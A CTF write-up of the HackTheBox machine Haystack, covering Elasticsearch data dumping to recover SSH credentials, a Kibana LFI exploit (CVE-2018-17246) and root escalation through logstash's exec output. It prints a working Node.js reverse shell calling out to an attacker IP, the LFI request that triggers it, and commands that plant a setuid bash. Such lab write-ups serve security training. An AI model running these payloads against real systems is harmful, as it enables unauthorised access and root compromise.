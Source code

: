 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-06-30-haystack-hackthebox
tags:
- hackthebox
- kibana
- lfi
- linux
- logstash
title: Haystack @ HackTheBox
---
```


Haystack is a 20 points machine on hackthebox, which in my opinion is not as easy as one might think. It involves some typical ctf steps for user and a nice privilege escalation which requires abusing a LFI in a locally listening kibana instance. The final step is about abusing logstash in order to escalate to root.

## User

The initial port scan shows the following open ports:

```
Nmap scan report for haystack (10.10.10.115)
Host is up (0.73s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9200/tcp open  wap-wsp
```

On port 80 we find a picture. We grab it and run strings on it, revealing a base64 string:

```
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
la aguja en el pajar es "clave"
```

We now focus on tcp port 9200, where a elastic search instance is running. To get to the data we first need to list the indexes, under which it is stored:

```
http://10.10.10.115:9200/_cat/indices?v

health status index                           uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .monitoring-es-6-2019.06.30     0MWTVUh7RsSjWJEBtu-7PQ   1   0        152           46    166.5kb        166.5kb
yellow open   quotes                          ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
green  open   .monitoring-kibana-6-2019.06.30 yo2RvTi9SAC_uCDqRyYCnw   1   0         12            0     45.6kb         45.6kb
yellow open   bank                            eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
green  open   .kibana                         6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
```

Now we can use [elasticdump](https://www.npmjs.com/package/elasticdump) to dump the contents:

```
elasticdump \
  --input=http://10.10.10.115:9200/bank \
  --output=bank.json \
  --type=data

elasticdump \
  --input=http://10.10.10.115:9200/quotes \
  --output=quotes.json \
  --type=data
```

Grepping the "quotes.json" for "clave" gets us two other base64 strings:

```
cGFzczogc3BhbmlzaC5pcy5rZXk=
pass: spanish.is.key

dXNlcjogc2VjdXJpdHkg
user: security
```

With these credentials we can log into the box via ssh and grab the user flag.

## Root

We run `ss -tulpen` and see the following open ports:

```
Netid State      Recv-Q Send-Q          Local Address:Port
udp   UNCONN     0      0                   127.0.0.1:323
udp   UNCONN     0      0                         ::1:323
tcp   LISTEN     0      128                         *:80
tcp   LISTEN     0      128                         *:9200
tcp   LISTEN     0      128                         *:22
tcp   LISTEN     0      128                 127.0.0.1:5601
tcp   LISTEN     0      128          ::ffff:127.0.0.1:9000
tcp   LISTEN     0      128                        :::80
tcp   LISTEN     0      128          ::ffff:127.0.0.1:9300
tcp   LISTEN     0      128                        :::22
tcp   LISTEN     0      50           ::ffff:127.0.0.1:9600
```

On port 5601 there is a kibana instance listening. In order to reach it we use dynamic port forwarding `ssh -D9090 security@haystack`, resulting in a socks proxy which we set in burp, allowing us to connect to the target site with firefox. After exploring the application a bit and searching for publicly known vulnerabilities we find this [exploit](https://github.com/mpgn/CVE-2018-17246).

We place the following shell from the github repository in /tmp:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8000, "10.10.14.8", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

Then run the LFI query to trigger the shell:

```
GET /api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/xct.js
```

![](htb_haystack_kibana.png)We saw earlier that the logstash application is running as root, so we explore how this one works. Looking at its config folder we see the following:

```
ls /etc/logstash/conf.d
filter.conf
input.conf
output.conf

cat /etc/logstash/conf.d/input.conf
input {
    file {
        path => "/opt/kibana/logstash_*"
        start_position => "beginning"
        sincedb_path => "/dev/null"
        stat_interval => "10 second"
        type => "execute"
        mode => "read"
    }
}

cat /etc/logstash/conf.d/output.conf
output {
    if [type] == "execute" {
        stdout { codec => json }
        exec {
            command => "%{comando} &"
        }
    }
}

cat /etc/logstash/conf.d/filter.conf
filter {
    if [type] == "execute" {
        grok {
            match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
        }
    }
}
```

In "input.conf" we see that a file that is named "logstash\_any" will be used as a input for "execute" every 10 seconds. In "filter.conf" we see that "execute" will try to match a regex, that if successful leads to the execution of the command (as root because logstash is running as root). We create the required file with the following commands:

```
echo "Ejecutar comando: cp /bin/bash /bin/xbash" > logstash_xct
echo "Ejecutar comando: chmod u+s /bin/xbash" >> logstash_xct
```

After waiting a moment we can call `xbash -p` and get a root shell (remember if you use this your first task as root should be to delete xbash). Thanks to [jkr](https://www.hackthebox.eu/home/users/profile/77141) for this nice little bash trick and congrats for the system blood on this box!